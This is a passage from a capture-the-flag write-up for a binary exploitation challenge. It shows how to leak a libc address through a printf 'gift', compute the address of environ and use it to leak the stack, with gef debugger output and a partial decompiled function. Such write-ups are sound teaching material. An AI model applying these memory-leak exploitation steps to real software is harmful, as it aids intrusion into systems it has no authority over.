 You'll get the output of `printf("[%p]\n",printf);`:

```
You have already recycled at least 5 times! Please accept this gift: [0x7fa6be5dfe10]
```

With this you can compute the location of libc and then get the address of `environ`.


After 5 more rounds of the same as above, you'll be prompted with:

```
You have recycled 10 times! Feel free to ask me whatever you want.
>
```

Here is where you put in the [computed] address of `environ` to leak the stack.

BTW, if you are curious (and I hope you are):

```
gef➤  p/x &environ
$1 = 0x7fa6be76a2e0
gef➤  p/x environ
$2 = 0x7fffd0a72428
gef➤  telescope environ
0x00007fffd0a72428│+0x0000: 0x00007fffd0a736fb  →  "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr[...]"
0x00007fffd0a72430│+0x0008: 0x00007fffd0a7373d  →  "HOSTNAME=7d98dbdedb54"
0x00007fffd0a72438│+0x0010: 0x00007fffd0a73753  →  "TERM=xterm"
0x00007fffd0a72440│+0x0018: 0x00007fffd0a7375e  →  "DISPLAY=172.20.123.123:0"
0x00007fffd0a72448│+0x0020: 0x00007fffd0a73774  →  "LC_CTYPE=C.UTF-8"
0x00007fffd0a72450│+0x0028: 0x00007fffd0a73785  →  "DEBIAN_FRONTEND=noninteractive"
0x00007fffd0a72458│+0x0030: 0x00007fffd0a737a4  →  "HOME=/root"
0x00007fffd0a72460│+0x0038: 0x00007fffd0a737af  →  "LOGNAME=root"
0x00007fffd0a72468│+0x0040: 0x00007fffd0a737bc  →  0x00313d4c564c4853 ("SHLVL=1"?)
0x00007fffd0a72470│+0x0048: 0x00007fffd0a737c4  →  "PWD=/pwd/datajerk/cyberapocalypsectf2021/save_the_[...]"
```

Moving on, the next interesting function is:

```c
void hidden_resources(void)
{
  FILE *__stream;
  size_t sVar1;
  long in_FS_OFFSET;
  int local_64;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined2 local_28;
  undefined local_26;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("You found a hidden vault with resources. You are very lucky!");
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_26 = 0;
```
